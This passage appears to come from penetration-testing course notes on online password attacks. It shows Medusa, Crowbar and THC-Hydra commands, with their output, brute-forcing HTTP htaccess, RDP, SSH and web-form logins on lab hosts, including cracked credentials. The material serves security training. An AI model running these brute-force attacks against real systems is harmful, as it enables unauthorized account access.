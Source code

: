 ### HTTP htaccess Attack with Medusa

We will attempt to gain access to an htaccess-protected folder, /admin, on that server.

Next, we will launch medusa and initiate the attack against the htaccess-protected URL (-m DIR:/admin) on our target host with -h 10.11.0.22. We will attack the admin user (-u admin) with passwords from our rockyou wordlist file (-P /usr/share/wordlists/rockyou.txt and will, of course, use an HTTP authentication scheme (-M):
```
kali@kali:~$ medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456 (1 of 14344391 com
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 12345 (2 of 14344391 comp
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456789 (3 of 14344391 
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: password (4 of 14344391 c
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: iloveyou (5 of 14344391 c
...
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: samsung (255 of 14344391 
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: freedom (256 of 14344391 
ACCOUNT FOUND: [http] Host: 10.11.0.22 User: admin Password: freedom [SUCCESS]
...
```

This tool can interact with a variety of network protocols, which can be displayed with the -d option as shown below.

```
kali@kali:~$ medusa -d
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

  Available modules in "." :

  Available modules in "/usr/lib/medusa/modules" :
    + cvs.mod : Brute force module for CVS sessions : version 2.0
    + ftp.mod : Brute force module for FTP/FTPS sessions : version 2.1
    + http.mod : Brute force module for HTTP : version 2.1
    + imap.mod : Brute force module for IMAP sessions : version 2.0
    + mssql.mod : Brute force module for M$-SQL sessions : version 2.0
    + mysql.mod : Brute force module for MySQL sessions : version 2.0
...
```

### Remote Desktop Protocol Attack with Crowbar

Crowbar, formally known as Levye, is a network authentication cracking tool primarily designed to leverage SSH keys rather than passwords. It is also one of the few tools that can reliably and efficiently perform password attacks against the Windows Remote Desktop Protocol (RDP) service on modern versions of Windows. Let's try this tool against our Windows client machine.

First let's install Crowbar from the Kali repository:

```
kali@kali:~$ sudo apt install crowbar
Reading package lists... Done
Building dependency tree       
Reading state information... Done
...
```

To invoke crowbar, we will specify the protocol (-b), the target server (-s), a username (-u), a wordlist (-C), and the number of threads (-n) as shown in Listing 16:

```
kali@kali:~$ crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
2019-08-16 04:51:12 START
2019-08-16 04:51:12 Crowbar v0.3.5-dev
2019-08-16 04:51:12 Trying 10.11.0.22:3389
2019-08-16 04:51:13 RDP-SUCCESS : 10.11.0.22:3389 - admin:Offsec!
2019-08-16 04:51:13 STOP
```

### SSH Attack with THC-Hydra

THC-Hydra is another powerful network service attack tool under active development and it is worth mastering. We can use it to attack a variety of protocol authentication schemes, including SSH and HTTP.

The standard options include -l to specify the target username, -P to specify a wordlist, and protocol://IP to specify the target protocol and IP address respectively.

```
kali@kali:~$ hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret servic

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-07 08:35:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommende
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:143443
[DATA] attacking ssh://127.0.0.1:22/
[22][ssh] host: 127.0.0.1   login: kali   password: whatever
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-07 08:36:13
```

### HTTP POST Attack with THC-Hydra

As an additional example, we will perform an HTTP POST attack against our Windows Apache server using Hydra. When an HTTP POST request is used for user login, it is most often through the use of a web form, which means we should use the "http-form-post" service module. We can supply the service name followed by -U to obtain additional information about the required arguments:

```
kali@kali:~$ hydra http-form-post -U
...
Help for module http-post-form:
============================================================================
Module http-post-form requires the page and the parameters for the web form.

```

The complete command can now be executed. We will supply the admin user name (-l admin) and wordlist (-P), request verbose output with -vV, and use -f to stop the attack when the first successful result is found. In addition, we will supply the service module name (http-form-post) and its required arguments ("/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN") as shown below.

```bash
kali@kali:~$ hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

Basic Authentication bruteforce.
```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.201.52 http-get /
```